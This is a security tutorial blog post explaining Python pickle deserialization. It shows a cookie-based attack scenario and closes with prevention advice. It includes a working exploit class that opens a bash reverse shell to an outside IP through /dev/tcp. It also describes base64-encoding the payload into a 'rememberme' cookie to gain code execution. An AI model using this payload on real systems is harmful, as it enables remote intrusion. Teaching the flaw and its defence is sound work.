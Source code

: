 ```yaml
---
layout: post
title: "Deserialization Attack Using Python's Pickle Module"
subtitle: "And a practical use-case"
date: 2022-04-27 09:00:00 -0400
background: '/img/bg-about.jpg'
---
```

# Deserialization Attack Using Python's Pickle Module

![python-pickle-logo.png](/img/posts/serialization-pickle/python-pickle-800x200.png)

## Serialization explained

Serialization is a process of converting an object into a stream of bytes to store the object or transmit it to memory, a database, or a file.
 
![packing-serialization](/img/posts/serialization-pickle/c-sharp-serialization.png)
 
This is done for a variety of reasons, some of them being :

-Persistence: storing an object in its current state for later retrieval; eg. App memory gets cleared from RAM upon exit, but the application has serialized and saved the objects to disk before it exited - so it can easily retrieve them later

-Ease of communication: two machines running the same code can use serialized objects for communication - one machine can build an object and serialize it and then send it over to the other machine

-Network transmission: serialized objects are used by web applications to ensure faster data transmission and integrity

## Python's pickle module

The Pickle module is native to Python, and "Pickling" is the process where a Python object is converted into a byte stream, and "Depickling" is the opposite - where a byte stream is converted back to an object.

## Practical use-case

Consider a web application which uses pickled data as the cookie value.
<br>  
![request-burp](/img/posts/serialization-pickle/request.png)
<br>  
How can we guess this is pickled data? By decoding the "rememberme" cookie value, its visible that it looks like a pickled value:
<br>  
![rememberme-cookie-value](/img/posts/serialization-pickle/rememberme-cookie-value.png)
<br>  
We can now generate our pickled object to get code execution. This is a sample python code which we can use:
```
import cPickle
import os
class exploit(object):
  def __reduce__(self):
    return (os.system,("/bin/bash -i >& /dev/tcp/10.10.14.123/80 0>&1",))
e = exploit()
print cPickle.dumps(e)
```
Note the result when running the code :
<br>  
![pickled-object](/img/posts/serialization-pickle/pickled-object.png)
<br>  
Since this object is being used by the web application, to ensure data integrity - it is base64 encoded:
<br>  
![b64-pickled_object](/img/posts/serialization-pickle/b64-pickled_object.png)
<br>  
Once this is done we can simply set up our listener and paste the b64 payload into the "rememberme" cookie value and after sending the request it will result in code execution - and in this case a reverse shell.

## Prevention
It is widely considered that unserializing data from an untrusted source or giving the users ability control over the objects is a bad idea.

The pickle module is NOT intended to be secure against erroneous or maliciously constructed data. Never unpickle data received from an untrusted or unauthenticated source.

If the application needs to ensure that the data has not been tampered with - consider using HMAC ((Hash-based Message Authentication Code) - which is available as a separate Python module.